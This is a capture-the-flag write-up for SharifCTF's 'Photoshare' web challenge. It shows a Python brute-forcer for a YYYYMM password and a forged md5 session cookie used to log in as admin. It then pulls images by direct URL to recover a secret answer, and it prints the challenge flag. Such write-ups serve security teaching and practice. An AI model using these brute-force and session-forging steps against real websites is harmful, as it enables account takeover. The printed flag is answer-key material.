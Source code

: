 # Photoshare (250 PTS)
### Description

>Photoshare is an internet based photo sharing service. Login to this website as admin.
>web: ctf.sharif.edu:8084
>username: jack
>password: Year and month of Jack's birthday.

>Hint:No need for XSS or bypassing the uploader.

Flag: ```SharifCTF{kmvfwmj6sea7get9wggu249ehjc8hmdd}```

### Solution

<p><img src='images/welcome.png' /></p>

Website welcomes us with a login form. Username is known from the descripton (```jack```), password mask is ```YYYYMM``` (also from the description), secret question is pretty simple. So we need to investigate a html code and write a bruteforcer.

<p><img src='images/html.png' /></p>

I marked fields which should be extracted. I've used Python for writing it.

```python
import re
import requests

def get_hidden(url):
    response = requests.get(url)
    html = response.text
    question = re.search('name="SecQuestion" placeholder="(.*?)"', html)[1]
    answer = eval(question.split('=')[0].replace('x', '*'))
    field = re.search('name="field" value="(\w+)"', html)[1]
    token = re.search('name="_token" value="(\w+)">', html)[1]
    return response.cookies, answer, field, token
    
...

def get_passwords():
    for year in range(1900, 2019):
        for month in range(1, 13):
            yield '%04d%02d' % (year, month)
```

Full code you can see in [brute.py](brute.py). Run it and... yeah!
```
Found password for jack: 195408
```

Now we can login as jack.

<p><img src='images/home.png' /></p>

<p><img src='images/upload.png' /></p>

Website has two pages: we can upload a photo with id from 1 to 6 and show it on the showcase.
Look at the urls.

<p><img src='images/images.png' /></p>

It seems that we can insert any username instead of ```jack```, but it causes 403.

<p><img src='images/denied.png' /></p>

Interesting, but we're following Hint and ```not bypassing the uploader```. Look at the cookie called ```session_id``` instead! Yes, it's just an md5 hash which can easily be cracked.

```
session_id=a6da08ce385c95026045150daf37e2f8 = md5(jack34)
```

After some experiments I decided that we can write here hashes of jacks from ```jack1``` to ```jack60```, but it isn't important. Authors asks us to login as ```admin```, so let's do it! Try to set ```md5(admin34)``` and reload the page.

```python
>>> md5(b'admin34').hexdigest()
'06d6d78ec1dd8f97a0475ecfd034c55c'
>>>
```

<p><img src='images/admin.png' /></p>

Oops! Security check. But what if we open images directly from urls? For example image with ```id=3```:

```
http://ctf.sharif.edu:8084/GetPicture/admin/3
```

<p><img src='images/teacher.png' /></p>

Yeah, got it! His name is ```Mr. Tashakkor```. Now we can use it for entering the website.

<p><img src='images/final.png' /></p>
